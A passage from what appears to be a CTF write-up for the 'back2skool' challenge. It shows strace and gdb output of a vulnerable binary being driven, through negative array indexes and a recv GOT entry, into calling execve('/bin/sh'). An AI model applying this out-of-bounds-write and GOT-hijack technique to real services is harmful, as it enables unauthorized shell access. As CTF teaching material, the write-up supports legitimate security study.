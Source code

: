 Reading from **-32** it's equivalent of reading -32\*4 bytes before our
buffer. 0x804c040-32\*4 is 0x804bfc0, this is the `recv` GOT entry.
**-1218309888** is -1217696784-613104.

Hey, it didn't crashed, that's a plus! Meanwhile, back at the castle.

	$ strace -f ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
	[...]
	[pid  4901] send(4, "Value at position -2147483634: -"..., 43, 0) = 43
	[pid  4901] read(4, "m", 1)             = 1
	[pid  4901] read(4, "a", 1)             = 1
	[pid  4901] read(4, "t", 1)             = 1
	[pid  4901] read(4, "h", 1)             = 1
	[pid  4901] read(4, "\r", 1)            = 1
	[pid  4901] read(4, "\n", 1)            = 1
	[...]
	[pid  4902] execve("/bin/sh", ["sh", "-c", ""], [/* 31 vars */]) = 0
	[pid  4902] brk(0)                      = 0x9a04000
	[...]

We successfully **called execve**!

## Parameters to execve

We are able to run `execve` but we don't control the parameters ... yet. Let's see with what parameters `execve` is called.

	$ gdb ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
	[...]
	Reading symbols from /root/back2skool-3fbcd46db37c50ad52675294f5667909d1f...(no debugging symbols found)...done.
	(gdb) set follow-fork-mode child 
	(gdb) catch syscall execve 
	Catchpoint 1 (syscall 'execve' [11])
	(gdb) r
	[...]
	Catchpoint 1 (call to syscall 'execve'), 0xb7fe2424 in __kernel_vsyscall ()
	(gdb) info registers 
	eax            0xffffffda	-38
	ecx            0xbffff3b4	-1073744972
	edx            0xbffff5ac	-1073744468
	ebx            0xb7fa5a5a	-1208329638
	[...]
	(gdb) x/s $ebx
	0xb7fa5a5a:	 "/bin/sh"
	(gdb) x/5x $ecx
	0xbffff3b4:	0xb7fa5a5f	0xb7fa5a57	0x0804c040	0x00000000
	0xbffff3c4:	0xb7ead180
	(gdb) x/s ((char **)$ecx)[0]
	0xb7fa5a5f:	 "sh"
	(gdb) x/s ((char **)$ecx)[1]
	0xb7fa5a57:	 "-c"
	(gdb) x/s ((char **)$ecx)[2]
	0x804c040 <values>:	 ""
	(gdb) 


[original binary]: res/back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f "Vulnerable binary"
[Ghost in the Shellcode]: http://ghostintheshellcode.com/ "Ghost in the Shellcode CTF"